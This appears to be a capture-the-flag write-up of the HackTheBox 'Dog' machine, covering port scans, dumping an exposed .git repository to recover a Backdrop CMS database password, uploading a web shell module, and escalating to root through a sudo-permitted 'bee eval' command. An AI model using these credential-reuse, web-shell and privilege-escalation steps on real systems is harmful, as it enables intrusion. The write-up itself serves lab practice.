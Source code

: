 ```yaml
---
title: "Dog"
date: 2024-03-17
draft: false
description: HackTheBox's Good Room
summary: This was a really good and fun room.
Tags:
- HackTheBox
- Linux
- Easy

cover:
  image: "feature.png"

---
```


| Link: | [https://app.hackthebox.com/machines/Dog](https://app.hackthebox.com/machines/Dog) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |

---

## Enumeration

```
nmap -sVC 10.10.11.58             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:37 +0545
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up (0.21s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE    SERVICE            VERSION
22/tcp    open     ssh                OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp    open     http               Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
2119/tcp  filtered gsigatekeeper
2605/tcp  filtered bgpd
2909/tcp  filtered funk-dialout
5214/tcp  filtered unknown
5225/tcp  filtered hp-server
6881/tcp  filtered bittorrent-tracker
31337/tcp filtered Elite
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.50 seconds
```

```
rustscan -a 10.10.11.58             
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.58:22
Open 10.10.11.58:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:38 +0545
Initiating Ping Scan at 11:38
Scanning 10.10.11.58 [4 ports]
Completed Ping Scan at 11:38, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:38
Completed Parallel DNS resolution of 1 host. at 11:38, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:38
Scanning 10.10.11.58 (10.10.11.58) [2 ports]
Discovered open port 22/tcp on 10.10.11.58
Discovered open port 80/tcp on 10.10.11.58
Completed SYN Stealth Scan at 11:38, 0.34s elapsed (2 total ports)
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2025-03-09 11:38:21 +0545 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

![](Pasted%20image%2020250309114042.png)

Contents of robots.txt.
```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html
#
# For syntax checking, see:
# http://www.robotstxt.org/checker.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /core/
Disallow: /profiles/
# Files
Disallow: /README.md
Disallow: /web.config
# Paths (clean URLs)
Disallow: /admin
Disallow: /comment/reply
Disallow: /filter/tips
Disallow: /node/add
Disallow: /search
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
# Paths (no clean URLs)
Disallow: /?q=admin
Disallow: /?q=comment/reply
Disallow: /?q=filter/tips
Disallow: /?q=node/add
Disallow: /?q=search
Disallow: /?q=user/password
Disallow: /?q=user/register
Disallow: /?q=user/login
Disallow: /?q=user/logout
```

And lots of things in directory busting.
![](Pasted%20image%2020250309121509.png)

And the directories and queries from robots.txt in not valid.

```
admin/config/development/configuration/sync
```

We can use [GitTools](https://github.com/internetwache/GitTools) to dump data and file from .git directory.

![](Pasted%20image%2020250309122744.png)

`BackDropJ2024DS2024`

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

```


And can find email.
`0-8204779c764abd4c9d8d95038b6d22b6a7515afa/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json`
![](Pasted%20image%2020250309140603.png)

And we logged in.
![](Pasted%20image%2020250309140657.png)

```
tiffany@dog.htb
BackDropJ2024DS2024
```

## Exploit

![](Pasted%20image%2020250309144948.png)
![](Pasted%20image%2020250309145207.png)

Now,
![](Pasted%20image%2020250309153823.png)

And we need to create a shell.tar.gz.

[exploit](https://www.exploit-db.com/exploits/52021)

It will create a shell directory.
We need to do.
`tar -czvf shell.tar.gz shell/`

And upload this tar.gz file in the thing uploading module.
![](Pasted%20image%2020250309154248.png)

And now after doing that we need to load that.
![](Pasted%20image%2020250309154328.png)

and visit what exploit saying or `/modules/shell/shell.php`

And we will see this.
![](Pasted%20image%2020250309154145.png)

And now we can use python3 reverse shell to get stable shell.
![](Pasted%20image%2020250309154500.png)

## Privilege Escalation

Lets enumerate.
Now we can login to mysql server.
But it was a rabbithole.
![](Pasted%20image%2020250309154948.png)
![](Pasted%20image%2020250309155414.png)

`hashcat -m 7900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force`

Nothing here and we cant even crack the password of user.

And amazingly, we can use same password from before for user `johncusack`.
![](Pasted%20image%2020250309161007.png)

And now doing `sudo -l` revealed this.
![](Pasted%20image%2020250309162543.png)

And doing this came this.
![](Pasted%20image%2020250309162621.png)

So its a command to manage that backdrop cms.
But we have root priveleges.
And we can see it can use eval function of php.
![](Pasted%20image%2020250309162757.png)

So Now we can try to do privelege escalate using eval.

Lets try.
![](Pasted%20image%2020250309163256.png)

Hmm and after doing some talk with chatGPT,if we specify the `root directory of the Backdrop installation to use`,we could do so.
`sudo -u root /usr/local/bin/bee --root=/var/www/html eval 'system(whoami)'
`
![](Pasted%20image%2020250309163814.png)
I guess it worked.

Lets try.
We have to also write commands inside quotations. 
![](Pasted%20image%2020250309163909.png)

```
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash");'

```

and we got the root.
![](Pasted%20image%2020250309164104.png)

## Done

And done.
![](Pasted%20image%2020250309164152.png)

Again lots of things learned.
I hope you enjoyed.
